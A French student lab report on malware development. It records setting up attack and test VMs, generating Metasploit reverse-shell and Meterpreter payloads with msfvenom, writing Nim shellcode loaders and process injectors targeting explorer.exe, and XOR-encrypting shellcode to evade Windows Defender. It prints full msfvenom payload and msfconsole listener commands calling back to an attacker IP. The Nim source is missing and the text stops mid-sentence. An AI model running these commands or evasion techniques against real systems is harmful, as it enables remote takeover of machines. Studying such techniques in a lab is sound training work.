DISCLAIMER : Mes VM ayant été détruites avant que je ne puisse push mon code NIM sur le git, j'ai le regret de ne pouvoir rendre que le rapport rescapé et quelques screenshots...

# Création de l'environnement

## 1.1 VM de dev/attaque

- Création via le template yml : ossecu17-vm-maldev1

- [Installation de NIM](https://nim-lang.org/install.html)

- Installation de Winim pour s'interfacer avec l'API Windows : nimble install winim 

- Désactivation de Windows Defender + Exclusion du répertoire C:\Users\localuser\Documents\

Choix du langage NIM car il occupe une position intermédiaire très pratique : 

il offre la productivité d’un langage de haut niveau tout en permettant d’atteindre la performance et le contrôle d’un langage bas niveau comme le C. 

### Installation de msfvenom (Metasploit Framework)

- Installation de VisualC++ Redistributable (Certaines bibliothèques Ruby en ont besoin)

- Téléchargement du framework Metasploit et installation dans c:\metasploit-framework

Vérification de l'installation

```powershell
msfvenom -h
```

Mise à jour du framework

```powershell
msfupdate
```

Mise à jour base de données 

```powershell
msfdb init
```

Générer un petit payload de test

```powershell
# Exemple : payload qui ouvre une invite de commande (reverse TCP)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.17 LPORT=4444 -f exe -o C:\Users\localuser\Documents\rev_shell.exe
```

Sur la machine de dev/attaque, démarrer un listener, on devrait obtenir une session shell

```powershell
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/shell_reverse_tcp; set LHOST 10.10.10.17; set LPORT 4444; run"
```

Copie de rev_shell.exe sur la machine cible et lancement

Bingo ! La machine dev/attaque reçoit la connexion. 





Test de création d'un dossier sur la machine cible :



#### shell_reverse_tcp – qu’est-ce que c’est?

shell_reverse_tcp n’est pas une fonction exclusive à msfvenom. C’est en fait un payload (une petite routine de code) fournie par le framework Metasploit.

Payload: morceau de code qui s’exécute sur la machine compromise et qui réalise une tâche précise (ouvrir une console, établir une connexion, charger Meterpreter, etc.).

shell_reverse_tcp: payload qui, une fois exécuté, ouvre une connexion TCP inversée (reverse) depuis la cible vers l’attaquant, puis lance une invite de commande Windows (cmd.exe).

Pourquoi «reverse» ?

- La cible initie la connexion vers l’attaquant, ce qui contourne les pare‑feux qui bloquent les connexions entrantes vers la cible.
- L’attaquant écoute sur un port (ex. 4444) ; la cible se connecte à cet IP + port et transmet le shell.

#### Relation avec **msfvenom** et **msfconsole**

| Outil                                       | Rôle vis‑à‑vis du payload                                                                                                                                                                                                  |
| ------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **msfvenom**                                | Génère le **binaire** contenant le payload (ex. un `.exe`, du shellcode brut, un script PowerShell, etc.). Vous choisissez le payload (`-p windows/shell_reverse_tcp`), les options (LHOST, LPORT) et le format de sortie. |
| **msfconsole** (ou `exploit/multi/handler`) | **Écoute** sur le port indiqué et **gère** la session qui arrive. C’est le côté « serveur » du reverse shell.                                                                                                              |
| **Metasploit Framework**                    | Ensemble complet : bibliothèque de payloads, d’exploits, de modules auxiliaires, de handlers, etc. `shell_reverse_tcp` appartient à cette bibliothèque.                                                                    |

Donc : **msfvenom** est simplement l’outil qui vous permet de **produire** le fichier contenant le payload `shell_reverse_tcp`. Le même payload peut être utilisé ailleurs (par exemple, intégré dans un script Python, un macro Office, ou même écrit à la main en assembleur) tant que le code final correspond à ce que le framework définit.

#### Variantes du même concept

| Payload                             | Fonctionnalité principale                                                                   |
| ----------------------------------- | ------------------------------------------------------------------------------------------- |
| `windows/shell_reverse_tcp`         | Ouvre une console Windows (`cmd.exe`).                                                      |
| `windows/meterpreter_reverse_tcp`   | Ouvre une session **Meterpreter** (plus riche : upload/download, screenshots, pivot, etc.). |
| `windows/x64/shell_reverse_tcp`     | Version **64 bits** du même shell.                                                          |
| `linux/x86/meterpreter_reverse_tcp` | Même idée, mais pour Linux.                                                                 |
| `java/meterpreter_reverse_tcp`      | Payload Java, utilisable dans des applets ou des programmes JVM.                            |
| `python/meterpreter_reverse_tcp`    | Payload Python, exécuté via l’interpréteur Python installé sur la cible.                    |

Toutes ces variantes partagent le même principe : **établir une connexion inverse** vers l’attaquant, puis fournir un canal de commande.

#### Comment ça marche sous le capot ?

1. **Code du payload** (en assembleur) crée une socket TCP.
2. Il **connecte** la socket à l’adresse IP/port fournis (`LHOST`, `LPORT`).
3. Une fois la connexion établie, il **redirige** les flux d’entrée/sortie du processus `cmd.exe` vers la socket (via `CreateProcess` + `RedirectStandardInput/Output`).
4. Le processus `cmd.exe` s’exécute, et tout ce que vous tapez dans votre console Metasploit est envoyé à la cible, et la sortie de la cible revient à votre console.

Le code exact varie légèrement selon l’architecture (x86 vs x64) et le système d’exploitation, mais le schéma reste identique.

#### Quand choisir `shell_reverse_tcp` ?

| Situation                           | Pourquoi choisir ce payload                                                                                          |
| ----------------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| **Apprentissage**                   | C’est le payload le plus simple : il vous donne immédiatement un shell sans couche supplémentaire.                   |
| **Tests rapides**                   | Aucun besoin d’installer des extensions Meterpreter ; le binaire est plus petit.                                     |
| **Environnements très verrouillés** | Si les défenses détectent fortement Meterpreter, le simple `shell_reverse_tcp` peut parfois passer inaperçu.         |
| **Débogage**                        | Vous voyez directement les commandes Windows et leurs sorties, ce qui aide à comprendre le comportement de la cible. |

#### Résumé

- **`shell_reverse_tcp`** est un **payload** fourni par le **framework Metasploit**.
- **msfvenom** sert à **générer** un fichier (exe, dll, raw shellcode, etc.) contenant ce payload.
- **msfconsole** (ou `exploit/multi/handler`) écoute et gère la session qui arrive.
- Ce payload ouvre une **connexion TCP inversée** depuis la cible vers l’attaquant, puis lance une **invite de commande Windows**.
- Il existe des variantes (x86/x64, Meterpreter, Linux, Java, etc.) qui utilisent le même principe de connexion inverse mais offrent des fonctionnalités différentes.

En bref, `shell_reverse_tcp` est un composant du **framework Metasploit**, et msfvenom n’est qu’un des nombreux moyens de le mettre en forme pour l’utiliser dans vos exercices.

## 1.2 VM de test

- Création via le template yml : ossecu17-vm-maldev2

- Changement de quelques paramètres (régions,...) et désactivation de l'anti-virus + exclusion du répertoire C:\Users\localuser\Documents\

- Partage du dossier C:\Users\localuser\Documents\ => \\\\10.10.20.17\Documents$

# Exercice 1

On va tenter, avec un programme nim, de charger le payload meterpreter_reverse_tcp, découvert grâce à l'IA et expliqué plus haut :) 

## D'abord test avec un exe généré par msfvenom

pour générer le payload à exécuter sur la machine cible :

```powershell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.17 LPORT=4444 -a x64 -b "\x00\x0a\x0d" -e x64/xor_dynamic -i 3 -f exe -o C:\Users\localuser\Documents\meterpreter.exe
#-a x64 -b "\x00\x0a\x0d" `          # exclure NUL, LF, CR (souvent interdits)
#-e x64/xor_dynamic -i 3 `           # encodeur (rendre le shellcode moins détectable)
```

Pour lancer la console sur la machine dev/attaque

```powershell
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 10.10.10.17; set LPORT 4444; set ExitOnSession false; run"
set ExitOnSession false;   # garder le handler ouvert pour d’autres sessions
run"
```



Avec meterpreter on peut par exemple après faire un screenshot de la machine cible ou des upload download de fichiers :

```
screenshot [chemin_local]
```


## Exploit nim

On génère le shellcode avec msfvenom pour nim dans un shellcode.txt

```powershell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.17 LPORT=4444 -a x64 -b "\x00\x0a\x0d" -e x64/xor_dynamic -i 3 -f nim > C:\Users\localuser\Documents\ex1\shellcode.txt
#-a x64 -b "\x00\x0a\x0d" `          # exclure NUL, LF, CR (souvent interdits)
#-e x64/xor_dynamic -i 3 `           # encodeur (rendre le shellcode moins détectable)
```

Adaptation du code nim avec le shellcode généré et explication du code dans les commentaires :

```nim
INCLURE ICI LE LIEN DU CODE ShellcodeLoader.nim sur la machine dev/attaque
```

Compilation dans le dossier ex1 :

`nim c ShellcodeLoader.nim `

Dépôt de ShellcodeLoader.exe dans  \\\\10.10.20.17\Documents$ 

Malheureusement, détecté par l'antivirus Windows, malgré -e x64/xor_dynamic -i 3  :( 

Je redésactive la protection temps réelle qui s'est réactivé automatiquement et j'exclus tout le dossier Documents

Recopie de ShellcodeLoader.exe

Ensuite, dans l'ordre :

- Exécution côté machine attaque de msfconsole

```powershell
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 10.10.10.17; set LPORT 4444; set ExitOnSession false; run"
set ExitOnSession false;   # garder le handler ouvert pour d’autres sessions
run"
```

- Exécution côté machine cible de ShellcodeLoader.exe

- Bingo, la machine d'attaque reçoit bien la connexion. Test de création d'un répertoire "Coucoufrancois" depuis la machine attaque vers la machine cible :





# Exercice 1 - bonus

Idem que Exercice1 mas adaptation du code nim pour retirer la création du thread

ICI INCLURE LIEN VERS LE CODE 

Compilation dans le dossier ex1b d'un Shellcodeloader2 :

`nim c ShellcodeLoader2.nim`

Exécution de msfconsole côté machine dev/attaque et de ShellcodeLoader2 côté machine cible + mkdir shellcodeloaderwithoutthread pour tester 





# Exercice 2 + bonus

Pour cet exercice, je choisis de faire différement et je combine avec la partie bonus.

Plutôt que le programme injecteur demande à l'utilisateur un nom de processus via la ligne de commande, je décide d'obtenir par programmation le PID du processus explorer.exe

En effet, le malware est destiné à Windows et ce processus est toujours actif, seul son PID change !

```nim
mettre ici le code adapté
```

`nim c ShellcodeInjector.nim`

## Test et constatation

- Dépôt de shellCodeinjector dans \\\\10.10.20.17\Documents$ 

- Test de multiples exécutions. On ne voit en effet aucun processus shellCodeInjector dans le taskmanager. 

- Au fur et à mesure qu'on le lance, on voit l'allocation de mémoire du processus explorer.exe augmenter









# Exercice 3

Adaptation de Encrypt.nim pour mettre la sortie du shellcode encrypté dans un fichier encrypted_shellcode.txt pour faciliter le copié collé dans AVEvasion.nim

Adaptation de AVEvasion.nim pour récupérer le pid de explorer.exe et y rattacher le payload

Adaptation dans Encrypt.nim et AVEvasion.nim de la clé de cryptage sur un seul byte pour l'opération de cryptage avec XOR : 0x37 => 0x24

METTRE LES LIENS VERS LE CODE 

Compilation de Encrypt.nim, récupération du shellcode crypté pour adapter AVEvasion.nim 

Compilation de AVEvasion.nim, dépôt et exécution de l'exécutable sur la machine cible. 

Ca fonctionne :

Lancement de AVEvasion.exe : 



Session 12 opened :



Par contre, l'exécutable est toujours identifié comme malveillant par Windows AV. Certainement parce que le payload utilisé est très gros et donc augmente l'entropie du fichier. Raisons évoquées dans l'énoncé de l'exercice :

